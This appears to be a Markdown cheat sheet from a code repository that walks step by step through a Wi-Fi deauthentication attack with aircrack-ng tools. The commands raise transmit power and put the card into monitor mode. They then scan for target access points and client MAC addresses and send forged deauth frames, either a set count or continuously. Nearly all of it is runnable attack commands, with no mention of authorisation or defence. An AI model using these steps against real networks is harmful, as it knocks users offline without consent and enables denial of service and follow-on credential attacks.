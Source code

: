 # Deauthentication Attack
### Set router to max power
```
sudo iwconfig wlan1mon txpower 30
```
---

### Check / kill:
If things are weird
```
sudo airmon-ng check kill
```

---

### wlan1 Monitor mode:
```
sudo airmon-ng start wlan1
```
Interface now is appended `mon` e.g `wlan1mon`

---

### Test for packet injection
Once it's in monitor mode, run a test:
```
sudo aireplay-ng --test wlan1mon
```
Should see `Injection is working!`

---

### Gather MAC addresses
Use this command to see live network traffic, enabling you to see all the devices on the network and their MAC addresses. if you run this live you'll inevitably see the clients disconnect and reconnect when you deauth. Remember to add `--band a` for 5GHz: 
```
sudo airodump-ng wlan1mon --band abg -w dump
```
The top half are going to be the available WIFI networks / Access Points (APs). You have to output to file because the terminal is too small to display all of them. The bottom half are going to be clients/`STATIONS` and the `Probes` should tell you what they're connected to.

---

### Monitor traffic
Once you've found your target, listen to it live with:
```
sudo airodump-ng wlan1mon --bssid XX:XX:XX:XX:XX:XX --band abg
```
OR (try both - router likely broadcasts multiple BSSIDs, once for each GHz or if it multiplate bands(?))
```
sudo airodump-ng wlan1mon --essid "NetworkName" --band abg
```

---

### Deauth
The actual deauth - where `5` is the number of deauths, `0` would be to send them continously.
```
sudo aireplay-ng -0 5 -a ACCESSPOINT-BSSID -c CLIENT-BSSID wlan1mon
```

---


---

## NOTE
You have to be on the same channel as the AP you're deauthing, change it with:
```
sudo iwconfig wlan1mon channel 149
```

---
### For list of attacks:
We want `0` here
```
aireplay-ng
```
